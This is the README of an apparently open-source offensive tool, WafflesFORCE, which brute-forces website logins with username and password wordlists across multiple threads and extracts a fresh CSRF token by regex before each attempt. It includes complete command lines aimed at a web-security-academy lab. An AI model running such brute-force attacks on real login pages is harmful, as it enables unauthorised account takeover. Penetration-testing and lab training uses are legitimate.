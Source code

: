 ![image](https://github.com/user-attachments/assets/207902fe-2e60-497b-9a79-1ddcb460b7ca)
### -> Multi-threaded Login brute-forcer with built-in CSRF token bypass
This tool is designed to brute force website's logins and bypass CSRF token protection. It achieves this by automatically capturing the CSRF token based on regex before each login attempt.

## Table of Contents
- [Features](#features)
- [Usage](#Usage)
  - [Examples](#examples)
- [Preview](#Preview)
- [Installation](#installation)
- [Commands](#Commands)
- [Contact](#contact)


## Features
- **Automatic CSRF handling** — fetches and extracts CSRF tokens (custom regex/param/url) and injects them per request.
- **Multi-threaded** — parallelized login attempts (`--threads`) for higher throughput.
- **Flexible inputs** — supports username/password wordlists or single values (`--users`, `--passwords`, `--user`, `--password`) and customizable POST body (`--data`).
- **Match verification** — validate attempts via status-code ranges (`--match-status`) and response regex (`--match-regex`).
- **Output & logging** — save results to file (`--output`) and enable verbose/debug output (`--verbose`).
- **Transport control** — HTTP/S support with optional SSL verification toggle (`--verify`).
- **Extensible config** — many options (CSRF regex/param/url, custom delimiter/data, etc.) for adapting to different login flows.
- **Planned / not yet implemented** — query-parameter bruteforce (`--query`) and server-side filtering features.

**Note:** Always open for feature/improvement suggestions.

## Usage
To use this script, specify the following:
```
--csrf-regex : A regex pattern to capture the CSRF token.
--csrf-param : The name of the CSRF token parameter.
```
This additional configuration ensures the script accurately captures and uses CSRF tokens during brute force login attempts.
### Examples
```Python
# Basic Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt
# Using CSRF URL Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

### Preview
![image](https://github.com/user-attachments/assets/6572f919-b586-405a-a365-ebeef00830a2)

## Installation
```bash
git clone https://github.com/WafflesExploits/WafflesFORCE.git
cd WafflesFORCE
python3 wafflesforce.py ...
```
## Commands 
```
╦ ╦╔═╗╔═╗╔═╗╦  ╔═╗╔═╗╔═╗╔═╗╦═╗╔═╗╔═╗
║║║╠═╣╠╣ ╠╣ ║  ║╣ ╚═╗╠╣ ║ ║╠╦╝║  ║╣ 
╚╩╝╩ ╩╚  ╚  ╩═╝╚═╝╚═╝╚  ╚═╝╩╚═╚═╝╚═╝
usage: wafflesforce.py [-h] [--host HOST] [-U [USERS]] [-u [USER]]
                       [-P [PASSWORDS]] [-p [PASSWORD]] [-cr CSRF_REGEX]
                       [-cp CSRF_PARAM] [-cu [CSRF_URL]] [-mr [MATCH_REGEX]]
                       [-ms [MATCH_STATUS]] [-d [DATA]] [-q [QUERY]]
                       [-t [THREADS]] [-o [OUTPUT]] [-vr] [--verbose]

-> Multi-threaded Login Bruteforcer for Bypassing CSRF Token Protection
 

options:
  -h, --help            show this help message and exit
  --host HOST           Target URL.
  -U [USERS], --users [USERS]
                        Path to usernames' wordlist file.
  -u [USER], --user [USER]
                        Specify a single username to use
  -P [PASSWORDS], --passwords [PASSWORDS]
                        Path to passwords' wordlist file.
  -p [PASSWORD], --password [PASSWORD]
                        Specify a single password to use
  -cr CSRF_REGEX, --csrf-regex CSRF_REGEX
                        Specify a Regex pattern to extract the CSRF token. Example:'name="csrf" value="(.*?)">'
  -cp CSRF_PARAM, --csrf-param CSRF_PARAM
                        Specify the CSRF token parameter name to be used in the login POST Request. Example:'csrf'
  -cu [CSRF_URL], --csrf-url [CSRF_URL]
                        URL path to fetch the CSRF token.
  -mr [MATCH_REGEX], --match-regex [MATCH_REGEX]
                        Match the specified regex pattern to verify login attempts. Example:'/login2'
  -ms [MATCH_STATUS], --match-status [MATCH_STATUS]
                        Match specified Status codes. Default:'200-299,301,302'
  -d [DATA], --data [DATA]
                        Body parameters for the POST request. Example:'username=*USER*&password=*PASS*'
  -q [QUERY], --query [QUERY]
                        Feature not added yet - Query parameters for the GET request
  -t [THREADS], --threads [THREADS]
                        Number of threads to use. Default: 5
  -o [OUTPUT], --output [OUTPUT]
                        Outputs results to a file.
  -vr, --verify         Set verify to false. Use this if the website does not support SSL. Example: Uses HTTP instead of HTTPS
  --verbose             Increase Verbosity. Use for debugging or giving more information about login attempts.

[Usage Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt

[Using CSRF URL Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

## Contact
Created by [@WafflesExploits](https://wafflesexploits.github.io/about/) - I'm always open to features/improvement suggestions! You can reach me out on my socials :)
